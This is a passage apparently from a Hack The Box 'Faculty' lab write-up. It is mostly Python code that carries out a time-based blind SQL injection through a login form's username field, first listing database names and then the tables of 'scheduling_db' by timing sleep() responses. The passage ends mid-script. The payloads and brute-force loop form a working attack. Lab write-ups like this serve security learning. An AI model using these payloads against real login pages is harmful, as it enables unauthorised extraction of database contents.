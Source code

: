 ```python

                post_data = {
                    'username' : "admin' and if(substr((select schema_name from information_schema.schemata limit %d,1),%d,1)='%s',sleep(1.5),1)-- -" % (db,position,character),
                    'password' : 'password'

                }

                p1.status(post_data['username'])

                time_start = time.time()

                r = requests.post(login_url, data=post_data)

                time_end = time.time()

                if time_end - time_start > 1.5:
                    database += character
                    p2.status(database)
                    break
        database += ","
```
**Example:**
![](/assets/img/faculty-htb/script_results_db.png)

Once you have the **database** name you want, you need to update the function to get **tables**.

```python
def sqli():

    tables = ""

    p1 = log.progress("Brute Force")
    p1.status("Starting Attack")


    p2 = log.progress("Tables [DB:scheduling_db] ")
    for db in range(0, 7):

        for position in range(1, 20):

            for character in characters:


                post_data = {
                    'username' : "admin' and if(substr((select table_name from information_schema.tables where table_schema = 'scheduling_db' limit %d,1),%d,1)='%s',sleep(1.5),1)-- -" % (db,position,character),
                    'password' : 'password'

                }

                p1.status(post_data['username'])

                time_start = time.time()

                r = requests.post(login_url, data=post_data)

                time_end = time.time()

                if time_end - time_start > 1.5:
```